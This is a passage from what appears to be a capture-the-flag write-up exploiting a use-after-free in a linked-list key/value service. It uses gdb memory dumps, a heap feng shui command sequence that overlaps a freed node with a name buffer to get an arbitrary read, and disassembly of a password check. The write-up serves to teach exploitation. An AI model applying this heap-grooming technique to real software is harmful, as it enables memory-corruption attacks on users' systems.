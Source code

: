 
Well, we obviously have to keep that next pointer set! Otherwise it could never traverse to other nodes in the list.

And if we delete the second element now?

    [head]
    (gdb) x /20x 0x804C36C
    0x804c36c:      0x00000000      0x00000000      0x0804d1c0      0x00000000

    [element 2]
    (gdb) x /20x 0x0804d1c0
    0x804d1c0:      0x00000000      0x00000000      0x00000000      0x00000000


Uh oh... that next pointer still looks pretty valid, and that 2nd element sure did get deleted.

Lets try allocating a new element to the head.

    [head]
    (gdb) x /20x 0x804C36C
    0x804c36c:      0x0804d1e8      0x0804d1a0      0x0804d1c0      0x00000000

Those name and value pointers sure do look close to our dangling invalid next ptr.

With a bit of heap feng shui (smart allocation ordering) lets see what we can do.

    set a bbb
	set bbbbbbbbbbbbbbbb s
	set a    [delete]
    set bbbbbbbbbbbbbbbb     [delete]
	set xxxxxxxxxxxxxxxx f


Allocate the first element normally, then allocate the 2nd element with a name of the exact same size as a struct_node, delete both. Then when we next try to create an element, we need a struct_node (head is available so it uses that) and the next allocation it tries will be for the name (xxx...) which if its the same size as struct_node, will happily take the free'd 2nd elements spot.

    [head]
    (gdb) x /20x 0x804C36C
    0x804c36c:      0x0804d1d8      0x0804d190      0x0804d1d8      0x00000000

Hey look, our name ptr goes directly to our next pointer!
Lets cook up a better name then, say one that has the same structure as a struct_node, and we can read that value whenever we want!


### Reading something

Well now that we have a read, lets go back to enable, and find something to read.
	.text:08049267                 mov     [esp+4Ch+buffer], ebx ; s2
	.text:0804926B                 mov     [esp+4Ch+stream], offset dword_804C3A0 ; s1
	.text:08049272                 call    _strcmp
	.text:08049277                 mov     [esp+4Ch+var_14], eax
	.text:0804927B                 mov     eax, [esp+4Ch+var_14]
	.text:0804927F                 test    eax, eax
	.text:08049281                 jz      short loc_80492B8
	.text:08049283                 mov     [esp+4Ch+max_length], ebx
	.text:08049287                 mov     [esp+4Ch+buffer], offset aNope_ThePasswo ; "Nope.  The password isn't %s\n"
	.text:0804928F                 mov     [esp+4Ch+stream], 1
	.text:08049296                 call    ___printf_chk
